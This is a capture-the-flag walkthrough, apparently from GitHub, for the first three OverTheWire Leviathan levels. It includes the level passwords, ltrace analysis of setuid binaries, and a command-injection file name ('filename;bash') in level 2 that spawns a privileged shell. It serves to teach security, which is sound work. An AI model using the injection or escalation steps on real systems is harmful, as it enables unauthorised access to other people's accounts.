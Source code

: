# Leviathan

## Level 0

* Goal - To login to the first level use Username - leviathan0, Password - leviathan0. Data for the levels can be found in the homedirectories. You can look at /etc/leviathan_pass for the various level passwords.

* Commands - ssh

* Solution -

```shell
ssh leviathan.labs.overthewire.org -p 2223 -l leviathan0

ls

ls -a
#shows hidden .backup directory

cd .backup/

ls

cat bookmarks.html

cat bookmarks.html | grep password
#password (rioGegei8m)

exit
```

## Level 1

* Solution -

```shell
ssh leviathan.labs.overthewire.org -p 2223 -l leviathan1

ls -a
#shows file called check

file check
#binary

./check
#asks password, tried previous password but doesn't work

strings check
#strings prints readable strings
#shows particular strings

ltrace ./check
#run a command until exits
#to understand logic used
#binary compares string with "sex"
#entering "sex" as password for binary

./check
#opens /bin/sh

whoami
#leviathan2

cat /etc/leviathan_pass/leviathan2
#password (ougahZi8Ta)

exit

exit
```

## Level 2

* Solution -

```shell
ssh leviathan.labs.overthewire.org -p 2223 -l leviathan2

ls -a
#shows that printfile is owned by leviathan3

file printfile
#shows binary file

./printfile
#shows command to print a file

ldd printfile
#prints shared libraries

man readelf
#tool to display info for ELF files

readelf -h printfile

ltrace ./printfile /etc/leviathan_pass/leviathan3
#shows access function in code, exits

ltrace ./printfile /etc/passwd
#this works and we get access
#it tries to run /bin/cat for filename

mktemp -d
#create random directory in /tmp

cd /tmp/tmp.xRVgCgdIfr

touch 'filename;bash'
#creating file with a name containing semicolon, following which we place command to be executed

ls

~/printfile 'filename;bash'
#run printfile (in home directory) to print 'filename;bash'
#this executes bash command
#now we enter bash with leviathan3

whoami
#leviathan3

cat /etc/leviathan_pass/leviathan3
#password (Ahdiemoo1j)

exit

exit
```
